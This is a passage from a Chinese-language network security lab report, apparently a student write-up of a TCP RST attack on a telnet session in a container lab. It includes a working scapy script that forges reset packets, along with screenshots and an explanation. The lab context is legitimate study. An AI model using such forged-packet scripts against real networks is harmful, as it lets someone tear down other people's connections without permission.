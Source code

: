 （2）攻击脚本：

```python
#!/usr/bin/python3
from scapy.all import *

print("SENDING RESET PACKET.........")
ip = IP(src="172.17.0.2", dst="172.17.0.4")
tcp = TCP(sport=59252, dport=23,flags="R",seq=470998582)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
```

攻击命令：`sudo python reset_manual.py`。

（3）观察和解释：成功，符合预期。如下图，图中第二个t对应攻击的tcp报文。当再输入一个t时，显示连接已经中止。

![img](https://img-blog.csdnimg.cn/img_convert/982e874d5097e2193b4cd823b2237db5.png)

而且，使用wireshark抓取报文，可以看到我们伪造的RST报文成功发出、并阻碍了通信。

![img](https://img-blog.csdnimg.cn/img_convert/822df30894f06dae8ea02f210d84985c.png)

### scapy自动攻击：

（1）Wireshark截包截图。

关键信息：ip：172.17.0.2→172.17.0.4，port：59296→23，Seq：107996481。

![img](https://img-blog.csdnimg.cn/img_convert/ab102bbb0e40a6b424f3e9a119781b2d.png)

（2）攻击命令见下图左，攻击脚本见下图右。

其中攻击脚本添加了一行判断当前截获的报文是否是RST报文，如果是则返回，以免截取到自己伪造的报文。

![img](https://img-blog.csdnimg.cn/img_convert/a5553afbf3478f5d8c88b3a00b363156.png)

（3）观察和解释：

攻击成功，攻击结果如下图所示。没有阻断telnet与服务器建立连接，但是打断了登录过程。

![img](https://img-blog.csdnimg.cn/img_convert/3552cb3abc0a94fd8f895bf5dc7dfaff.png)

这和netwox运行时的部分情况也是一致的，由于建立连接的速度太快，python程序截获到建立连接的TCP报文、并发送伪造的RST报文时，连接已经建立完毕，SEQ和伪造的RST报文对不上。所以是在登录过程中被打断，符合预期。

对应的RST报文在wireshark中截图如下。

![img](https://img-blog.csdnimg.cn/img_convert/26508d54e9b49d063fbf2447b8292bec.png)

# 任务3,4常用指令说明

## 打断会话劫持

